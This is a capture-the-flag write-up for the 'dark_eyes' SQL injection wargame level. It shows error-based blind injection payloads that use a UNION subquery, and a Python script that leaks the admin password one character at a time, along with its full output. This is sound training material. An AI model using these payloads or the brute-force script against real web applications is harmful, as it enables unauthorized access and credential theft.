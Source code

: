 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 22
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/cbd65f64-4c89-44f4-b041-b362993f22dd)

We are provided with the SQL query:

```sql
SELECT id FROM prob_dark_eyes WHERE id='admin' AND pw='{$_GET[pw]}'
```

## Filter:

This challenge filters out the following:
- `col`
- `if`
- `case`
- `when`
- `sleep`
- `benchmark`


This level also exits when an error is invoked instead of revealing the error message.

## Error-based Blind SQL Injection

### Subquery returned more than 1 value error

In SQL the subquery can only return one value.

```sql
## Valid:
SELECT id FROM prob_dark_eyes WHERE id='admin' AND pw='' OR (SELECT 1) -- -'

## Invalid:
SELECT id FROM prob_dark_eyes WHERE id='admin' AND pw='' OR (SELECT 1 UNION SELECT 2) -- -'
```

This is the error that we will be exploiting.

### Revealing the password length

If we provide the following URI parameter:

```
?pw=' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND length(pw)=1) -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_dark_eyes WHERE id='admin' AND pw='' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND length(pw)=1) -- -'
```

The above SQL query includes the subquery `(SELECT 1 UNION SELECT 2 where id='admin' and length(pw)=1)` which returns two values if the `length(pw)=1` for `id='admin'`. This would invoke an error and cause the challenge to exit.

![2](https://github.com/Kunull/Write-ups/assets/110326359/29f2c0b3-d400-4043-8ce0-5a0c461edf1d)

Since the challenge did not exit, it means that the subquery only returned one value `SELECT 1`. This tells us that the length of the `pw` for `id='admin'` is more than 1.

If we keep increasing the length and provide the following URI parameter:

```
?pw=' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND length(pw)=8) -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_dark_eyes WHERE id='admin' AND pw='' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND length(pw)=8) -- -'
```

![3](https://github.com/Kunull/Write-ups/assets/110326359/fc84a7c5-6e2b-48c9-98e0-3c568896f8ed)

The subquery returned two values `SELECT 1 UNION SELECT 2` because the length of `pw` for `id='admin'` is 8. This caused an error, causing the challenge to exit.

### Leaking the password

Next, we can leak the password byte by byte using the `substr()` function.

#### `substr()`

If we provide the following URI parameter:

```
?pw=' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND substr(pw, 1, 1)='0') -- -
```

The resultant query will be:

```sql
SELECT id FROM prob_dark_eyes WHERE id='admin' AND pw='' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND substr(pw, 1, 1)='0') -- -'
```

![4](https://github.com/Kunull/Write-ups/assets/110326359/9b457365-e10b-441b-8118-a7b79af680c8)

Since the challenge did not exit, it means that the subquery only returned one value `SELECT 1`. This tells us that the first character of the `pw` for `id='admin'` is not `0`.

We can try other characters moving up to the following:

```
?pw=' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND substr(pw, 1, 1)='5') -- -
```

The resultant query will be:

```sql
SELECT id FROM prob_dark_eyes WHERE id='admin' AND pw='' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND substr(pw, 1, 1)='5') -- -'
```

![5](https://github.com/Kunull/Write-ups/assets/110326359/e62cdc7f-f0c7-4e9e-9177-e345970208a6)

The subquery returned two values `SELECT 1 UNION SELECT 2` because the first character of `pw` for `id='admin'` is ``5`. This caused an error, causing the challenge to exit.

We can keep repeating this process until we get all the eight characters of the `admin` password:

```
5a2f5d3c
```

### Script

```python title="dark_eyes_script.py"
import requests
import urllib.parse
import string

cookies = {'PHPSESSID': 'rvrb7p6vumnf7hu5ukb8f70gj8'}
url = "https://los.rubiya.kr/chall/dark_eyes_4e0c557b6751028de2e64d4d0020e02c.php"
password_length = 0

for x in range(0, 100):
  payload = f"' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND length(pw)={x}) -- -"
  encoded_payload = urllib.parse.quote_plus(payload)
  full_url = f"{url}?pw={encoded_payload}"
    
  response = requests.get(full_url, cookies=cookies)
    
  if "prob_dark_eyes" not in response.text:
    password_length = x
    break

print()    
print(f"[!] Payload: ?pw={payload}")
print(f"[!] Payload (URL encoded): ?pw={encoded_payload}")
print(f"[!] Password length: {password_length}")

password = ""
searchspace = string.digits + string.ascii_letters

for index in range(1, password_length + 1):
  for char in searchspace:
    payload = f"' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND substr(pw, {index}, 1)='{char}') -- -"
    encoded_payload = urllib.parse.quote_plus(payload)
    full_url = f"{url}?pw={encoded_payload}"

    response = requests.get(full_url, cookies=cookies)

    if "prob_dark_eyes" not in response.text:
      password += char
      print()
      print(f"[+] Payload: ?pw={payload}")
      print(f"[+] Payload (URL encoded): ?pw={encoded_payload}")
      print(f"[+] Character at index {index}: {char}")
      break

print()
print(f"[!] Extracted password: {password}")
print(f"[!] Final payload: ?pw={password}")
```

```
$python .\dark_eyes_script.py

[!] Payload: ?pw=' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND length(pw)=8) -- -
[!] Payload (URL encoded): ?pw=%27+OR+%28SELECT+1+UNION+SELECT+2+WHERE+id%3D%27admin%27+AND+length%28pw%29%3D8%29+--+-
[!] Password length: 8

[+] Payload: ?pw=' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND substr(pw, 1, 1)='5') -- -
[+] Payload (URL encoded): ?pw=%27+OR+%28SELECT+1+UNION+SELECT+2+WHERE+id%3D%27admin%27+AND+substr%28pw%2C+1%2C+1%29%3D%275%27%29+--+-
[+] Character at index 1: 5

[+] Payload: ?pw=' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND substr(pw, 2, 1)='a') -- -
[+] Payload (URL encoded): ?pw=%27+OR+%28SELECT+1+UNION+SELECT+2+WHERE+id%3D%27admin%27+AND+substr%28pw%2C+2%2C+1%29%3D%27a%27%29+--+-
[+] Character at index 2: a

[+] Payload: ?pw=' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND substr(pw, 3, 1)='2') -- -
[+] Payload (URL encoded): ?pw=%27+OR+%28SELECT+1+UNION+SELECT+2+WHERE+id%3D%27admin%27+AND+substr%28pw%2C+3%2C+1%29%3D%272%27%29+--+-
[+] Character at index 3: 2

[+] Payload: ?pw=' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND substr(pw, 4, 1)='f') -- -
[+] Payload (URL encoded): ?pw=%27+OR+%28SELECT+1+UNION+SELECT+2+WHERE+id%3D%27admin%27+AND+substr%28pw%2C+4%2C+1%29%3D%27f%27%29+--+-
[+] Character at index 4: f

[+] Payload: ?pw=' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND substr(pw, 5, 1)='5') -- -
[+] Payload (URL encoded): ?pw=%27+OR+%28SELECT+1+UNION+SELECT+2+WHERE+id%3D%27admin%27+AND+substr%28pw%2C+5%2C+1%29%3D%275%27%29+--+-
[+] Character at index 5: 5

[+] Payload: ?pw=' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND substr(pw, 6, 1)='d') -- -
[+] Payload (URL encoded): ?pw=%27+OR+%28SELECT+1+UNION+SELECT+2+WHERE+id%3D%27admin%27+AND+substr%28pw%2C+6%2C+1%29%3D%27d%27%29+--+-
[+] Character at index 6: d

[+] Payload: ?pw=' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND substr(pw, 7, 1)='3') -- -
[+] Payload (URL encoded): ?pw=%27+OR+%28SELECT+1+UNION+SELECT+2+WHERE+id%3D%27admin%27+AND+substr%28pw%2C+7%2C+1%29%3D%273%27%29+--+-
[+] Character at index 7: 3

[+] Payload: ?pw=' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND substr(pw, 8, 1)='c') -- -
[+] Payload (URL encoded): ?pw=%27+OR+%28SELECT+1+UNION+SELECT+2+WHERE+id%3D%27admin%27+AND+substr%28pw%2C+8%2C+1%29%3D%27c%27%29+--+-
[+] Character at index 8: c

[!] Extracted password: 5a2f5d3c
[!] Final payload: ?pw=5a2f5d3c
```


If we provide the following URI parameter:

```
?pw=5a2f5d3c
```

The resultant query becomes:

```sql
SELECT id FROM prob_dark_eyes WHERE id='admin' AND pw='5a2f5d3c'
```

![6](https://github.com/Kunull/Write-ups/assets/110326359/e6a9c9b4-8d34-4c6a-9bf4-3a9538a4cb5d)
